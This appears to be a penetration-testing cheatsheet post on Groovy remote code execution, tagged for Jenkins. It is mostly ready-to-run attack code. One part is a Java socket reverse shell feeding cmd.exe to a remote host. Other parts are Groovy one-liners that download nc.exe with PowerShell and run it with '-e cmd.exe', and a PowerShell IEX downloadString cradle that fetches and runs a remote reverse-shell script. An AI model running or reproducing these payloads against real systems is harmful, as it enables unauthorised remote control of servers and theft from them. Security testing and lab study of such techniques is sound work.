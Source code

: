 ```yaml
---
title: "Groovy Script Remote Code Execution"
date: 2020-08-24 18:13:44 +/-0800
categories: [Cheatsheets,Scripts]
tags: [Remote Code Execution,Groovy,RCE,Jenkins]
image: /assets/img/Posts/groovy.jpg
---
```


> This cheatsheet describes various methods for executing remote code in Groovy Language to get an reverse shell. 

## Method 1:

```console
String host="10.10.14.25";
int port=1337;
String cmd="cmd.exe";
Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();Socket s=new Socket(host,port);InputStream pi=p.getInputStream(),pe=p.getErrorStream(), si=s.getInputStream();OutputStream po=p.getOutputStream(),so=s.getOutputStream();while(!s.isClosed()){while(pi.available()>0)so.write(pi.read());while(pe.available()>0)so.write(pe.read());while(si.available()>0)po.write(si.read());so.flush();po.flush();Thread.sleep(50);try {p.exitValue();break;}catch (Exception e){}};p.destroy();s.close();
```
## Method 2:

#### Testing code execution

```console
def cmd = "cmd.exe /c dir".execute();
println("${cmd.text}");
```
#### Uploading nc on victim machine

```console
def process = "powershell -command Invoke-WebRequest 'http://10.10.14.11:8080/nc.exe' -OutFile nc.exe".execute();
println("${process.text}");
```

#### Executing nc to get reverse shell

```console
def process = "powershell -command ./nc.exe 10.10.14.11 9001 -e cmd.exe".execute();
println("${process.text}");
```

## Method 3:

```console
cmd = """ powershell IEX(New-Object Net.WebClient).downloadString('http://10.10.14.36/Invoke-PowerShellTcp.ps1') """
println cmd.execute().txt
```

